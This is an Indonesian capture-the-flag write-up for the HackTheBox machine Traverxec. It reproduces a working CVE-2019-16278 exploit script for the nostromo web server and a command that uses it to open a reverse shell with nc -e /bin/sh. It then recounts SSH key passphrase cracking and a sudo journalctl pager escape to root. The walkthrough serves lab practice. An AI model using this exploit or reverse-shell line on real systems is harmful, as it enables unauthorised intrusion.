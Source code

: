 # Traverxec (Linux)

![Image](img/1.jpg)

HackTheBox Traverxec dengan OS Linux

### Enumeration

Mari kita lakukan enumerasi awal terhadap machine ini terlebih dahulu dengan nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-07 00:01 EST
Nmap scan report for 10.10.10.165
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   280.93 ms 10.10.14.1
2   280.96 ms 10.10.10.165
 
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.36 seconds
```

Ada service http di port 80 dan ssh di port 22. Hal yang menarik untuk dilihat adalah nampaknya website menggunakan aplikasi bernama nostromo 1.9.6

Mari kita buka sebentar webnya sebelum ngegas vulnerability buat nostromo 1.9.6 nya , just in case ada informasi tambahan

![Image](img/2.jpg)

Tidak ada informasi yang berguna, kecuali mungkin ada user untuk di SSH bernama David White, mari kita cek vulnerability nostromo 1.9.6

Kita bisa melakukan RCE menggunakan script ini

[https://github.com/jas502n/CVE-2019-16278/blob/master/CVE-2019-16278.sh](https://github.com/jas502n/CVE-2019-16278/blob/master/CVE-2019-16278.sh)

```
#!/usr/bin/env bash
 
HOST="$1"
PORT="$2"
shift 2
 
( \
    echo -n -e 'POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.0\r\n'; \
    echo -n -e 'Content-Length: 1\r\n\r\necho\necho\n'; \
    echo "$@ 2>&1" \
) | nc "$HOST" "$PORT" \
  | sed --quiet --expression ':S;/^\r$/{n;bP};n;bS;:P;n;p;bP'
```

```
./rce.sh 10.10.10.165 80 nc -e /bin/sh 10.10.14.251 1234
```

Dapat shell, mari dijadikan fully interactive dulu

![Image](img/3.jpg)

Kita memiliki permission untuk masuk ke directory /home/david tapi tidak bisa melakukan ls

Mari kita mencari informasi di var/www nya website tersebut

Saya menemukan sebuah file configuration di /var/nostromo/conf

```
# MAIN [MANDATORY]
 
servername		traverxec.htb
serverlisten		*
serveradmin		david@traverxec.htb
serverroot		/var/nostromo
servermimes		conf/mimes
docroot			/var/nostromo/htdocs
docindex		index.html
 
# LOGS [OPTIONAL]
 
logpid			logs/nhttpd.pid
 
# SETUID [RECOMMENDED]
 
user			www-data
 
# BASIC AUTHENTICATION [OPTIONAL]
 
htaccess		.htaccess
htpasswd		/var/nostromo/conf/.htpasswd
 
# ALIASES [OPTIONAL]
 
/icons			/var/nostromo/icons
 
# HOMEDIRS [OPTIONAL]
 
homedirs		/home
homedirs_public		public_www
```

Ternyata ada directory di /home, tapi tadi sekilas kita tidak melihat ada public_www, jadi saya mencoba untuk masuk ke directory david dulu dan masuk ke public_www

![Image](img/4.jpg)

Saya mengambil file ini kembali ke local machine saya menggunakan nc

![Image](img/5.jpg)

Terdapat id_rsa jadi saya ubah ke format john untuk dilakukan dictionary attack terhadap passphrase dari id_rsa tersebut.

![Image](img/6.jpg)

Passphrasenya id_rsa adalah hunter, mari login dengan ssh atas nama david

![Image](img/7.jpg)

Di folder bin juga kita mendapatkan server-stats.sh dan yang menarik dari script ini adalah, script ini akan menjalankan journalctl dengan escalated priviledge.

Melihat bahwa journalctl ini adalah bin file, saya coba ke GTFOBins untuk mengecek adakan referensi yang mungkin bisa digunakan

![Image](img/8.jpg)

Kita perlu mentrigger pager yang dihasilkan dari command less. Journalctl akan menggunakan less untuk menampilkan output, namun jika seluruh output sudah berhasil ditampilkan, pager less akan exit. Jadi kita harus memaksa less menampilkan output hanya sebagian, sehingga pager tetap terbuka dan memanggil bash dengan keadaan journalctl di run menggunakan sudo.

![Image](img/9.jpg)

# Rooted !